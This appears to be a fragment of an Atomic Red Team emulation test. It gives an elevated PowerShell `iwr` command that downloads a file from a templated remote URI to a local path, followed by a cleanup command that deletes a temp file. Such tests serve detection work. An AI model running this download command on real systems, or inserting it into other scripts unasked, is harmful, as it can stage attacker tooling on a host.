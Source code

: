 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
powershell.exe iwr -URI #{remote_file} -Outfile #{local_path}
```

#### Cleanup Commands:
```cmd
del %temp%\Atomic-license.txt >nul 2>&1
```





<br/>

